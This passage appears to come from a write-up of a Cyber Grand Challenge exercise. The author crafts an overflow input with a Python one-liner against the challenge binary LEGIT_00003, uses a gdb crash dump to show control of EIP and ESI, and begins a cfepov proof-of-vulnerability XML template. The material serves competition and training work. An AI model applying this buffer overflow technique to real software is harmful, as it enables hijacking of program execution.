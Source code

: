 ```
vagrant@crs:~/LEGIT_00003$ uname -a
Linux crs 3.13.11-ckt21-cgc #1 SMP Mon Feb 29 16:42:11 UTC 2016 i686 GNU/Linux
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*4+"C"*4+"D"*4+"E"*10'
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЮ��BBBBCCCCDDDDEEEEEEEEEE
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*4+"C"*4+"D"*4+"E"*10' > badstr.txtvagrant@crs:~/LEGIT_00003$ gdb -q ./legit_00003 
Reading symbols from ./legit_00003...(no debugging symbols found)...done.
gdb-peda$ r < badstr.txt 
Starting program: /home/vagrant/LEGIT_00003/legit_00003 < badstr.txt
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x30 ('0')
EBX: 0x0 
ECX: 0xbaaaae41 --> 0x41414100 ('')
EDX: 0xbaaaae44 ('A' <repeats 29="" times="">, "Ю\252\272BBBBCCCCDDDD")
ESI: 0x42424242 ('BBBB')
EDI: 0x0 
EBP: 0x43434343 ('CCCC')
ESP: 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
EIP: 0x44444444 ('DDDD')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x44444444
[------------------------------------stack-------------------------------------]
0000| 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
0004| 0xbaaaaf40 --> 0x2 
0008| 0xbaaaaf44 --> 0xa ('\n')
0012| 0xbaaaaf48 --> 0x0 
0016| 0xbaaaaf4c --> 0x0 
0020| 0xbaaaaf50 --> 0x0 
0024| 0xbaaaaf54 --> 0x0 
0028| 0xbaaaaf58 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x44444444 in ?? ()
```

Ok so we now know exactly where we control EIP, and ESI and each is independant from the other. So we have the basis of our proof. Now to writing the PoV.

Starting with an example is always handy, however “cfepov” format examples demonstrating Type1 vulnerabilities are pretty hard to come by. I ended up starting with this template:

```
<?xml version="1.0" standalone="no" ?>
<!DOCTYPE cfepov SYSTEM "/usr/share/cgc-docs/cfe-pov.dtd">
<cfepov>
<cbid>service</cbid>
<replay>
    <negotiate><type1><ipmask>0x3f3f3f3f</ipmask><regmask>0x3f3f3f3f</regmask><regnum>6</regnum></type1></negotiate>
    <read><length>68</length></read>
</replay>
</cfepov>
```
